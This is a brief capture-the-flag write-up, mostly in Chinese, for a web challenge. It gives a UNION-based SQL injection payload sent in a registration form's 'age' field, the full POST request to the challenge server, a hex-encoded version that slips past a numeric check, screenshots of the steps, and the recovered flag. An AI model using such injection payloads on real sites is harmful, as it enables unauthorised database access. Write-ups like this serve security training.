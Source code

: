 # writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
### 0x01 题目链接
![](./images/1.jpg)

### 0x02 注册页面
![](./images/2.jpg)

### 0x03 age be a number
![](./images/3.png)

### 0x04 注册post包
![](./images/4.png)

### 0x05 注册成功
![](./images/5.png)

### 0x06 登陆页面
![](./images/6.png)

### 0x07 登陆后的返回包
![](./images/7.png)

### 0x08 登陆成功看到flag
![](./images/8.png)


*QWB{M0b4iDalao0rz0rz}*

